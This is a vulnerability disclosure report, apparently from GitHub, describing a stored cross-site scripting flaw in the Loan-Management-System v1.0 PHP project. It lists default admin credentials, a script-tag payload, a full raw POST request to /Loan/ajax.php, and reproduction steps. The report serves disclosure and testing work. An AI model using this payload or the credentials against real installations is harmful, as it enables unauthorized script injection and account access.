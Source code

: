# Loan-Management-System v1.0 by itsourcecode.com has Cross-site Scripting (XSS)
Vul_Author: Kai Wang

Login Account:admin   Password:admin123

vendors: https://itsourcecode.com/free-projects/php-project/loan-management-system-project-in-php-with-source-code/

Vulnerability File: /Loan/ajax.php

Vulnerability location: /Loan/ajax.php?action=save_loan_type HTTP/1.1

[+] Payload: <script>alert(1)</script>

Tested on Windows 10, phpStudy

There is an example with alert:
'''
POST /Loan/ajax.php?action=save_loan_type HTTP/1.1
Host: 10.12.180.79
Content-Length: 362
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.41
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl0Dh1LXu5fRCTYLI
Origin: http://10.12.180.79
Referer: http://10.12.180.79/Loan/index.php?page=loan_type
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=d4me9tekbcuef2k8k1qupv9i0t
Connection: close

------WebKitFormBoundaryl0Dh1LXu5fRCTYLI
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryl0Dh1LXu5fRCTYLI
Content-Disposition: form-data; name="type_name"

<script>alert(1)</script>
------WebKitFormBoundaryl0Dh1LXu5fRCTYLI
Content-Disposition: form-data; name="description"

test loans
------WebKitFormBoundaryl0Dh1LXu5fRCTYLI--
'''


Get into the Loan Types page,click the edit button as shown in the image

![image](https://user-images.githubusercontent.com/56795018/221339147-dee0f0e8-3799-406e-a190-ac58d29b096f.png)

input a XSS script in the 'Type' input box

![image](https://user-images.githubusercontent.com/56795018/221339277-9fcefc71-3428-4859-8c90-75244b37aef6.png)

click save and you will see an alert

![image](https://user-images.githubusercontent.com/56795018/221339321-fa21ee0e-3d78-42e2-9bc9-5a6df8dfd3d6.png)
